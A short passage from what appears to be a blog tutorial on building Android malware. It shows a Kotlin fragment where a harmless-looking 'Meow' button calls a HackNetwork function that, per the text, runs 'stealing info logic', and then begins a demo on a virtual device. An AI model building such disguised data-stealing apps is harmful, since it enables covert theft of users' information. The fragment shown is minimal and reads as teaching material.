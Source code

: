 ```kotlin
                applicationContext,
                "Meow! ♥️\uFE0F",
                Toast.LENGTH_SHORT
            ).show()
            HackNetwork(this).sendTextMessage("Meow! ♥️\uFE0F")
        }
        HackNetwork(this).sendTextMessage("Meow! ♥️\uFE0F")
    }
}
```

As you can see just clicking the `Meow` button is run stealing info logic.       

### demo

Let's go to see everything in action. Deploy and run on my virtual device:    

![malware](./images/11/2025-05-17_16-24.png){height="30%"}       

Then click `Meow` button:     
